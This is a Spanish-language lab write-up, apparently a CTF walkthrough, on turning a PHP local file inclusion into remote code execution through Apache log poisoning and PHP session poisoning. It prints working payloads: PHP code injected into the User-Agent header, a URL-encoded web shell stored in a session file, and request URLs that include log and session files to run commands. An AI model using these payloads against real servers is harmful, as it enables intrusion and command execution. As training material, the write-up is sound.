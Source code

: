 # LFI: Log Poisoning -> RCE 👩‍💻

El laboratorio que vulneraremos es

![Web.PNG](./assets/07-Septimo/01-Web.PNG)

* **(1)**: Tenemos un `PHPSESSID` con el cual podemos intentar un PHP Seesion Poisoning. 🦴
* **(2)**: Apunta a un recurso con el cual podremos intentar leer los **logs** 📃

---

Cambiamos la cabecera **`User-Agent`** con `<?php system('pwd'); ?>`

<p align="center">
    <img src="/assets/07-Septimo/02-Request.PNG">
</p>

* Inyectamos el código **PHP** para intentar ejecutarlo al leer el archivo del log


Leemos el archivo `/var/log/apache2/access.log` (Aquí se almacenan los logs del servidor web)

<p align="center">
    <img src="/assets/07-Septimo/03-pwd.PNG">
</p>

---

Ahora listamos el contenido de la raiz `/`

<p align="center">
    <img src="/assets/07-Septimo/04-ls.PNG">
</p>

Leemos nuevamente el archivo `/var/log/apache2/access.log`

<p align="center">
    <img src="/assets/07-Septimo/05-ls.PNG">
</p>

---

Ahora aplicaremos `PHP Session Poisoning` para leer el archivo **flag**

* **URL:** `http://<IP Web>/index.php?language=/var/lib/php/sessions/sess_<PHPSESSID>`

Después de esto, 'guardaremos' un script en php urlencodeado, para ejecutar comandos:

* **URL:** `http://<IP Web>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E`

Por último leemos el archivo `flag`

* **URL:** `http://<IP Web>/index.php?language=/var/lib/php/sessions/sess_<PHPSESSID>&cmd=cat /[Flag].txt`

<p align="center">
    <img src="/assets/07-Septimo/06-flag.PNG">
</p>